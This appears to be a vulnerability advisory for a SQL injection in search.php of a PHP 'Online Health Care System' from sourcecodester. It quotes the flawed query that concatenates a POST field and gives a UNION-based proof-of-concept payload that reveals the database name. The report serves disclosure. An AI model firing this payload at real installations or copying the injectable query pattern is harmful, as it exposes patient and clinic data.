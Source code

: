 ### Online Health Care System in PHP with Full Source Code

#### Affected version

Online Health Care System in PHP with Full Source Code

#### **supplier**

https://www.sourcecodester.com/php/14526/online-health-care-system-php-full-source-code-2020.html

#### Vendor

https://www.sourcecodester.com/

#### **Vulnerability file**

search.php

#### Description

Online Health Care System in PHP with Full Source Code. In the search.php，the f_name parameters passed by the POST are concatenated into the query1 sql statement, and there is SQL injection.

#### **code analysis**

Here’s the translation:

"In `search.php`, the `_POST['f_name']` receives the request and is stored in the variable `$name`. Then, `$name` is concatenated into the SQL query `query1`, which can trigger an SQL injection vulnerability. This may lead to data leakage or even result in gaining server access."

![image-20240820205513595](https://github.com/user-attachments/assets/f595f2e3-3567-4a13-ac13-d65b4653c61b)

![image-20240820205543674](https://github.com/user-attachments/assets/be3a078f-690a-4bae-8906-d6af4fa7a421)

	$name=$_POST['f_name'];  
	$query1 = "SELECT * from doctor inner join schedule on schedule.d_id=doctor.id WHERE  (permission='approved' OR permission='Added') AND (f_name like'%$name%'  or f_name like'%$name%')";   
	$run = mysqli_query($db,$query1);

####  **POC**

```
1%' or 1=1 )  UNION SELECT 1,2,3,4,5,database(),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
```

In `index.php`, entering the following payload in the search box can retrieve the database name.

![image-20240820205350796](https://github.com/user-attachments/assets/2482639c-3a22-4137-b4ef-e86344118663)

**You can see the database name echoed back**

![image-20240820205408380](https://github.com/user-attachments/assets/209ad025-29af-4726-b54f-3c3d73ab03b6)